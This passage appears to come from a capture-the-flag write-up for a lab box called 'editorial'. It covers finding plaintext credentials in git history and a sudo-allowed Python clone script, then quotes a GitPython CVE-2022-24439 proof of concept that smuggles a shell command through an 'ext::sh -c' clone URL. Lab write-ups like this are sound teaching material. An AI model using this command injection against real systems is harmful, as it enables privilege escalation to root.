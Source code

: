 ```
dev@editorial:~/apps/.git$ cd logs
dev@editorial:~/apps/.git/logs$ ls
HEAD  refs
dev@editorial:~/apps/.git/logs$ cat HEAD

(output omitted)
```

To examine the commits, I used the ```git show {commit-id}``` command to explore the changes.

```
dev@editorial:~/apps/.git/logs$ git show 1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae

(output omitted)
```

Inspecting the commit revealed another set of credentials in plain text, this time for the user "prod."

Switching to this user and running the usual ```sudo -l``` command showed that this user is permitted to run a Python script with sudo privileges.

```
User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Here is how this script looks like:

```
prod@editorial:/opt/internal_apps/clone_changes$ cat clone_prod_change.py 
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

This Python script clones a Git repository from a URL passed as a command-line argument into the ```/opt/internal_apps/clone_changes``` directory.

```os.chdir('/opt/internal_apps/clone_changes')``` changes the working directory to where the repository will be cloned.

```sys.argv[1]``` accepts the URL for the repository as the first argument passed to the script.

```Repo.init('', bare=True)``` initializes a bare Git repository in the current directory, which is typically used to track changes without a working directory.

```r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])``` clones the repository from the provided URL into a folder named new_changes. The option ```-c protocol.ext.allow=always``` allows Git to use certain external protocols.

Researching potential vectors for privilege escalation in this context revealed an interesting vulnerability (CVE-2022-24439) in GitPython. This vulnerability ultimately led to a [proof of concept](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858), which served as the stepping stone for the final exploitation. I'll share it here.

```
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

```
